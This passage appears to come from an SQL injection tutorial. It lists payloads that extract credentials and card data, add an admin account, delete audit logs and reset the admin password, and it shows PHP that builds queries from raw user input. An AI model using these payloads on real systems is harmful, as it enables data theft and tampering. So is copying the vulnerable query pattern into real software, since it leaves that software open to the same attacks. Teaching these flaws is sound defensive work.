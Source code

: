 ### 2. Data Exfiltration

```sql
-- Extract user credentials
1' UNION SELECT username, password FROM users --

-- Extract sensitive data
1' UNION SELECT credit_card_number, expiry_date FROM payments --
```

### 3. Database Manipulation

```sql
-- Insert malicious data
1'; INSERT INTO users (username, password, role) VALUES ('hacker', 'password123', 'admin') --

-- Delete records
1'; DELETE FROM audit_logs --

-- Update existing records
1'; UPDATE users SET password='hacked' WHERE username='admin' --
```

## Common Vulnerable Scenarios

### Web Form Login

```html
<form method="POST">
    <input name="username" type="text">
    <input name="password" type="password">
    <input type="submit" value="Login">
</form>
```

**Vulnerable Backend:**

```php
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "' AND password = '" . $_POST['password'] . "'";
```

### URL Parameters

```text
https://example.com/product.php?id=1
```

**Vulnerable Backend:**

```php
$query = "SELECT * FROM products WHERE id = " . $_GET['id'];
```

### Search Functionality
